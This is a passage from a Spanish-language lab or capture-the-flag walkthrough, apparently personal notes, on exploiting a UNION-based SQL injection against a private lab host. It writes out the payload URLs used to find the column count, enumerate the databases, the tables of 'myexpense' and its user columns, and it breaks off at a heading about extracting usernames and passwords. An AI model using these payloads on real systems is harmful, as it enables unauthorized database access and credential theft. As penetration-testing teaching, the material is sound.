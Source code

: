 ![[Pasted image 20240801000031.png]]

Iremos cambiado el número hasta encontrar uno que no nos de error, para intentar adivinar el número de columnas.

```sql
http://192.168.18.174/site.php?id=2' order by 5-- -
```

![[Pasted image 20240801000257.png]]

Si intentamos lo anterior nos daremos cuenta que no tendremos éxito por lo que pasaremos a probar lo mismo pero sin meter la comilla simple (**'**). 

Por ejemplo cuando introducimos un **2** no nos da error por lo que procedemos a explotar la [[SQL Inyection|inyección SQL]]:

 ```sql
http://192.168.18.174/site.php?id=2 order by 2-- -
```

![[Pasted image 20240801000536.png]]

### Base de datos actual

```sql
http://192.168.18.174/site.php?id=2 union select 1,database()-- -
```

![[Pasted image 20240801000758.png]]

### Bases de Datos

```sql
http://192.168.18.174/site.php?id=2 union select 1,schema_name from information_schema.schemata-- -
```

![[Pasted image 20240801001107.png]]

### Tablas de **myexpense**

```sql
http://192.168.18.174/site.php?id=2 union select 1, table_name from information_schema.tables where table_schema = 'myexpense'-- -
```

![[Pasted image 20240801001319.png]]

### Columnas de la tabla **user** de la base de datos **myexpense**

![[Pasted image 20240801001411.png]]

### Filas de las columnas **password y username**  de la tabla **user** y la base **myexpense**
